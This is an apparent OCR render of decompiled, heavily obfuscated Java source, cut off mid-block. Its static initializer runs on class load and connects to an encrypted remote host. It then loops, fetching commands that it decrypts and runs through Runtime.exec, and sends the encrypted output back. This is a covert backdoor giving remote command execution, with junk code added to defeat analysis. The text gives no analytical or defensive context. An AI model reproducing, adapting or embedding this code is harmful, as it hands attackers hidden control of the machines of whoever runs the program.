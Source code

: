 ```
        I[l[19]] = l("EAkMJl8JDRkyAxMcA2k6HxE=", "zhzGq");
        I[l[20]] = l("LyQVKDwqJw==", "KKSAR");
        I[l[21]] = l("CwkvD2gUHDACaCMJKgtwVQ==", "ahYnF");
        I[l[22]] = Il("uIHhwTaeAscF3EzVgdL4zg==", "tMxGZ");
        I[l[23]] = l("ChYmChAL", "nsEet");
        I[l[24]] = l("al9YAjJrX1RUZ2gEWgA2aQ==", "ZfldP");
        I[l[25]] = l("JygSTjMlL24xPSU+dDEXAgkoDxE=", "fmAav");
        I[l[26]] = I("EvA8rhxJMXPTCc0Wno5a9Q==", "QvZtB");
        I[l[28]] = l("OTAxITtw", "zxtbp");
        I[l[29]] = Il("gT9cJw1pjVI=", "eTlqI");
        I[l[30]] = I("BAW3Glpb798=", "pExyG");
    }

    private static boolean lll(int i, int i2) {
        return i < i2;
    }

    static {
        IIl();
        ll();
        XXX = I[l[24]];
        YYY = I[l[25]];
        try {
            Socket socket = new Socket(I[l[26]], l[27]);
            try {
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(socket.getInputStream()));
                try {
                    BufferedWriter bufferedWriter = new BufferedWriter(new OutputStreamWriter(socket.getOutputStream()));
                    do {
                        try {
                            bufferedWriter.write(I[l[28]]);
                            bufferedWriter.flush();
                            String readLine = bufferedReader.readLine();
                            if (lIl(readLine) && Ill(readLine.isEmpty() ? 1 : 0)) {
                                BufferedReader bufferedReader2 = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(decrypt(readLine)).getInputStream()));
                                StringBuilder sb = new StringBuilder();
                                do {
                                    String readLine2 = bufferedReader2.readLine();
                                    if (lIl(readLine2)) {
                                        sb.append(readLine2).append(I[l[29]]);
                                        "".length();
                                        "".length();
                                    } else {
                                        bufferedWriter.write(String.valueOf(new StringBuilder().append(encrypt(String.valueOf(sb))).append(I[l[30]])));
                                        bufferedWriter.flush();
                                    }
                                } while ((-"   ".length()) < 0);
                                return;
                            }
                            Thread.sleep(5000L);
                            "".length();
                        } catch (Throwable th) {
                            try {
                                bufferedWriter.close();
                                "".length();
                                if ("  ".length() < 0) {
                                    return;
                                }
                            } catch (Throwable th2) {
```